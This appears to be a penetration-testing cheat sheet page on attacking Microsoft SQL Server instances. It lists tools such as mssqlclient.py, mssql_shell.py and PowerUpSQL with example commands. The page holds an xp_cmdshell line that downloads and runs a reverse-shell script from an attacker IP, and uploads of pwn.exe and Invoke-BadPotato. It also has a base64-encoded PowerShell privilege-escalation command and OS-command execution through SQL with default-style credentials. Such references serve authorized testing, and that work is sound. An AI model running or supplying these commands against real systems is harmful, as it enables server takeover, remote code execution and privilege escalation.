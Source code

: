 

### mssqlclient.py

```
$ mssqlclient.py MEGACORP/snovvcrash:'Passw0rd!'@127.0.0.1 [-windows-auth]
SQL> xp_cmdshell "powershell -nop -exec bypass IEX(New-Object Net.WebClient).DownloadString(\"http://10.10.13.37/rev.ps1\")"
```



### mssql_shell.py

* [https://github.com/Alamot/code-snippets/blob/master/mssql/mssql_shell.py](https://github.com/Alamot/code-snippets/blob/master/mssql/mssql_shell.py)

Change `MSSQL_SERVER`, `MSSQL_USERNAME` and `MSSQL_PASSWORD` before running.

A scenario when [abusing SeImpersonatePrivilege with PrintSpoofer](/pentest/infrastructure/ad/privileges-abuse#printspoofer) (BadPotato):

```
$ python3 mssql_shell.py
CMD MSSQL$SQLEXPRESS@SQL01 C:\Windows\system32> UPLOAD pwn.exe \Windows\System32\spool\drivers\color\pwn.exe
CMD MSSQL$SQLEXPRESS@SQL01 C:\Windows\system32> UPLOAD Invoke-BadPotato.ps1 \Windows\System32\spool\drivers\color\potato.ps1
// . .\Invoke-BadPotato.ps1; Invoke-BadPotato -C "C:\Windows\System32\spool\drivers\color\pwn.exe"
CMD MSSQL$SQLEXPRESS@SQL01 C:\Windows\system32> powershell -enc LgAgAC4AXABJAG4AdgBvAGsAZQAtAEIAYQBkAFAAbwB0AGEAdABvAC4AcABzADEAOwAgAEkAbgB2AG8AawBlAC0AQgBhAGQAUABvAHQAYQB0AG8AIAAtAEMAIAAiAEMAOgBcAFcAaQBuAGQAbwB3AHMAXABTAHkAcwB0AGUAbQAzADIAXABzAHAAbwBvAGwAXABkAHIAaQB2AGUAcgBzAFwAYwBvAGwAbwByAFwAcAB3AG4ALgBlAHgAZQAiAAoA
```



### mssql-cli

* [https://github.com/dbcli/mssql-cli](https://github.com/dbcli/mssql-cli)

```
$ python -m pip install mssql-cli
$ mssql-cli -S 127.0.0.1 -U 'MEGACORP\snovvcrash' -P 'Passw0rd!'
```



### PowerUpSQL

* [https://github.com/NetSPI/PowerUpSQL](https://github.com/NetSPI/PowerUpSQL)

```
PS > Get-SQLInstanceDomain
PS > Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded -Threads 10 -Username sa -Password 'Passw0rd!' -Verbose
PS > Invoke-SQLOSCmd -Username sa -Password 'Passw0rd!' -Instance sqlsrv01.megacorp.local -Command whoami
PS > Invoke-SQLAudit -Instance WEB01 -Username sa -Password 'Passw0rd!' -Verbose
```



### DAFT

* [https://github.com/NetSPI/DAFT](https://github.com/NetSPI/DAFT)



### ESC

* [https://github.com/NetSPI/ESC](https://github.com/NetSPI/ESC)
